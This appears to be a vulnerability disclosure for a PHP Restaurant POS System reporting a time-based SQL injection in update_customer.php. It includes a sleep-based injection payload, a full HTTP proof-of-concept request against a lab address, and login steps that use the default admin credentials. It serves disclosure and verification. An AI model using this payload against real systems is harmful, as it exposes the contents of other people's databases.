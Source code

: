 # Vulnerability Description

[Restaurant POS System v1.0](https://codeastro.com/restaurant-pos-system-in-php-with-source-code/) was discovered to contain a SQL injection vulnerability via the update_customer.php. It is an open source project from [campcodes.com](https://www.campcodes.com). This vulnerability can lead to database information leakage.

1. Vulnerability Submitter: Tr0e  
2. vendors: [Restaurant POS System in PHP with Source Code - CodeAstro](https://codeastro.com/restaurant-pos-system-in-php-with-source-code/)  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;  
4. Vulnerability location: /RestaurantPOS/Restro/admin/update_customer.php
  

# Vulnerability Verification

[+] Payload:

```java
test'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

POC：

```js
POST http://192.168.0.120:91/RestaurantPOS/Restro/admin/update_customer.php?update=dac2ad667158'and(select*from(select+sleep(3))a/**/union/**/select+1)=' HTTP/1.1
Host: 192.168.0.120:91
Content-Length: 130
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.120:91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.120:91/RestaurantPOS/Restro/admin/update_customer.php?update=dac2ad667158
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ldi7mdlvm8g7bnfhunuvrhp8ne
Connection: close

customer_name=Yao&customer_phoneno=13011113333&customer_email=123%40qq.com&customer_password=123456&updateCustomer=Update+Customer
```

## How to verify

1. Build the vulnerability environment according to the steps provided by the source code author ; 
2. log in to the "Admin Panel” through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;
3. The vulnerability is located at the "Customers - Update" function, you should inserts Payload when you Update any customer's information，as shown in the following figure：

![image](https://user-images.githubusercontent.com/42080954/194768298-9f651a46-b1fe-4893-84da-93d3f916ed53.png)
![image](https://user-images.githubusercontent.com/42080954/194768392-da298111-c370-4f9d-ad39-4d3294ecc40c.png)

